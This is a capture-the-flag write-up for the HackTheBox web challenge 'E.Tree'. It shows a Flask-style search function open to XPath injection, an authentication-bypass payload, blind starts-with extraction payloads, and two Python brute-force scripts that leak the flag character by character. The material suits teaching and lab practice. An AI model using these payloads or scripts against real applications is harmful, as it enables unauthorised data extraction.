

# Authentication Bypass

XPath Injection is a attack that exploits applications by injecting malicious input into XPath queries. It targets systems that construct these queries from user-supplied data to navigate or retrieve information from XML documents.

### E.Tree - web challenge From HTB

The application passes the user input in search parameter as a post request.

```python
def search_staff(name):
    # who cares about parameterization
    query = f"/military/district/staff[name='{name}']" # vulnerable
    
    if tree.xpath(query):
        return {'success': 1, 'message': 'This millitary staff member exists.'}

    return {'failure': 1, 'message': 'This millitary staff member does not exist.'}
```

The code is vulnerable to **XPath Injection** because it directly incorporates untrusted user input (`name`) into the XPath query without proper sanitization or validation.

<figure><figcaption></figcaption></figure>

Passing - wrong payload to trigger error.

<figure><figcaption></figcaption></figure>

[https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/XPATH%20Injection/README.md#blind-exploitation \
](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/XPATH%20Injection/README.md#blind-exploitation)

Authentication Bypass Payload.

```
' or '1'='1
```

<figure><figcaption></figcaption></figure>

#### Extracting characters.

Continue with extracting flag. Here looking at the source code the flag is stored in the `selfDestructCode` variable in two parts.

<figure><figcaption></figcaption></figure>

<figure><figcaption></figcaption></figure>

[https://book.hacktricks.xyz/pentesting-web/xpath-injection#get-length-of-a-value-and-extract-it-by-comparisons](https://book.hacktricks.xyz/pentesting-web/xpath-injection#get-length-of-a-value-and-extract-it-by-comparisons)

```
' or starts-with(//selfDestructCode,'H') or '
```

<figure><figcaption></figcaption></figure>

The First character `H` has been confirmed here.

#### Scripting

Making a script to retrive the flag.

First part for flag

```python
#!/usr/bin/env python3

import requests
import string

url = "http://x.x.x.x:x/" # Provide the IP

printable = string.printable.replace("'", "")

leaked_data = list("HTB{")
while True:
	for character in printable:
		r = requests.post(
			url + "/api/search", 
			json={
				"search": f"' or starts-with(//selfDestructCode,'{''.join(leaked_data) + character}') or '"
			},
		)

		print(f"trying {''.join(leaked_data) + character}")
		if r.json() == {'message': 'This millitary staff member exists.', 'success': 1}:
			leaked_data.append(character)
			break
```

Second part for flag

```python
#!/usr/bin/env python3

import requests
import string

url = "http://x.x.x.x:x/" # Provide the IP

printable = string.printable.replace("'", "")

leaked_data = list("")
flag_part1 = "HTB{th3_3xtr4_l3v3l_"
while True:
	for character in printable:
		if (len(leaked_data) == 0 and character == 'H'):
			continue

		r = requests.post(
			url + "/api/search", 
			json={
				# "search": f"' or starts-with(//selfDestructCode,'{''.join(leaked_data) + character}') or '"
				"search": f"' or //selfDestructCode[starts-with(.,'{''.join(leaked_data) + character}')] or '"
			},
		)

		print(f"trying {''.join(leaked_data) + character}")
		if r.json() == {'message': 'This millitary staff member exists.', 'success': 1}:
			leaked_data.append(character)
			break
```
